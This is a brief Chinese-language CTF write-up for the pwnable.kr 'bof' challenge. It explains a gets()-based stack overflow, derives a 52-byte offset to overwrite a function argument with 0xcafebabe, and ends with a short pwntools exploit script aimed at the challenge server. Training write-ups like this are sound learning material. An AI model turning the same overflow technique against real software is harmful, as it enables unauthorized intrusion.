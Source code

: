简单的栈溢出\
![image](https://user-images.githubusercontent.com/98165037/224341704-86cc9f19-e4ae-4aec-b2e5-da5f0b9958d4.png)\
开了canary但好像没有关系\
![image](https://user-images.githubusercontent.com/98165037/224342489-6b160a1a-df09-4004-9588-e0bba2817c91.png)\
gets函数可以溢出\
![image](https://user-images.githubusercontent.com/98165037/224342133-6ecc0eab-c145-4013-8c8f-4a259f263442.png)\
可以看到我们从ebp+s的地方开始输入，要覆盖的地址为ebp+atg_0的地方\
![image](https://user-images.githubusercontent.com/98165037/224342737-19c27300-7a96-4843-b1c3-882487865ec5.png)\
由图可知s即-2Ch处，arg_0是+08h处，那么[ebp+s]和[ebp+arg_0]就相差52个字节，也就是覆盖52个a即可\
但莫名打不通，后来发现我用的是send，gets函数要读到换行符才停止，换成sendline就能打通了\
exp:
```
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
#p = process("./bof")
p = remote('pwnable.kr',9000)
#gdb.attach(p)
#sleep(25)
p.sendline(b'a'*52+p32(0xcafebabe))
p.interactive()
```
